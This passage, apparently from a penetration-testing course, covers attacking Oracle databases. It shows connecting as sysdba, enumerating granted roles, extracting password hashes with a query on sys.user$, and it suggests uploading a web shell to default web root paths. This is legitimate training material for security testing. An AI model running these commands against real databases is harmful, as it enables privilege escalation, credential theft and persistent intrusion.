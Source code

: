 Even if the user doesn't have administrator privileges we can try to log in as the System Database Admin (sysdba), giving us higher privileges.

### Oracle RDBMS - Database Enumeration
```shell-session
Wildland4958@htb[/htb]$ sqlplus <username>/<password>@<ip address>/<sid> as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

We cannot add new users or make any modifications from here.

### Oracle RDBMS - Extract Password Hashes
```shell-session
SQL> select name, password from sys.user$;
```

If the server runs a web server we can try uploading a web shell to the root directory.

|**OS**|**Default Path** |
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|
